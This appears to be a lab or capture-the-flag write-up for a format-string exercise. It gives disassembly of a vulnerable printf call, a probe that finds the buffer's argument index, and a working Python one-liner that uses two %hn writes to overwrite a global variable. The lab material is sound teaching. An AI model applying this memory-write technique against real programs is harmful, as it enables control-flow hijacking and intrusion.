

# ex08 - Format string to overwrite a global variable

## Goal
Print `you have modified the target :)`.

## Relevant assembly (`vuln`)
```asm
08048467: push ebp
08048468: mov  ebp,esp
0804846a: sub  esp,0x218
08048470: mov  eax,ds:0x80496e8            ; stdin stream
08048475: mov  DWORD PTR [esp+0x8],eax
08048479: mov  DWORD PTR [esp+0x4],0x200
08048481: lea  eax,[ebp-0x208]             ; 520-byte buffer
08048487: mov  DWORD PTR [esp],eax
0804848a: call fgets
0804848f: lea  eax,[ebp-0x208]
08048495: mov  DWORD PTR [esp],eax
08048498: call printf                        ; format-string vulnerability
0804849d: mov  eax,ds:0x80496f4            ; target global
080484a2: cmp  eax,0x1025544
080484a7: jne  ...
```

`target` is at `0x080496f4` and must become `0x01025544`.

## Finding the argument index
```bash
printf 'AAAA%%12$x\n' | ./bin
```
shows `41414141`, so the input buffer starts at printf argument 12.

## Exploit
```bash
python3 -c 'import sys,struct; sys.stdout.buffer.write(struct.pack("<II",0x080496f4,0x080496f6)+b"%21820x%12$hn%43966x%13$hn"+b"\n")' | ./bin
```

## Why it works
Two addresses are placed at the start: `0x080496f4` and `0x080496f6`. `%21820x` brings the printed count to `0x5544`; `%12$hn` writes that to the low half. `%43966x` brings the count to `0x0102` modulo 65536; `%13$hn` writes the high half. Together, `target` becomes `0x01025544`.
